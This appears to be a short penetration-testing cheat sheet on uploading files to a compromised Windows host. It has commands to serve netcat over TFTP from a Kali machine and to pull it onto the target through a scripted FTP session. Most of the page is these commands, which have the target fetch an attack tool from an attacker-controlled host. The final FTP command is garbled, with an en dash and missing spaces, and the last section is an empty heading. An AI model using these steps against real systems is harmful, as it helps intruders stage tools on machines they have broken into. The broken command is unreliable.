 

# Uploads

## TFTP 

### Serve

```bash
root@kali:~# mkdir /tftp
root@kali:~# atftpd --daemon --port 69 /tftp
root@kali:~# cp /usr/share/windows-binaries/nc.exe /tftp/
```

### Load

```bash
tftp -i 10.11.0.5 get nc.exe
```



## FTP

### setup

```bash
#!/bin/bash
groupadd ftpgroup
useradd -g ftpgroup -d /dev/null -s /etc ftpuser
pure-pw useradd offsec -u ftpuser -d /ftphome
pure-pw mkdb
cd /etc/pure-ftpd/auth/
ln -s ../conf/PureDB 60pdb
mkdir -p /ftphome
chown -R ftpuser:ftpgroup /ftphome/
/etc/init.d/pure-ftpd restart
```

### Download from windows

```bash
C:\Users\offsec>echo open 10.11.0.5 21> ftp.txt
C:\Users\offsec>echo USER offsec>> ftp.txt
C:\Users\offsec>echo ftp>> ftp.txt
C:\Users\offsec>echo bin >> ftp.txt
C:\Users\offsec>echo GET nc.exe >> ftp.txt
C:\Users\offsec>echo bye >> ftp.txt
C:\Users\offsec>ftp–v -n-s:ftp.txt
```

### Download using VBS
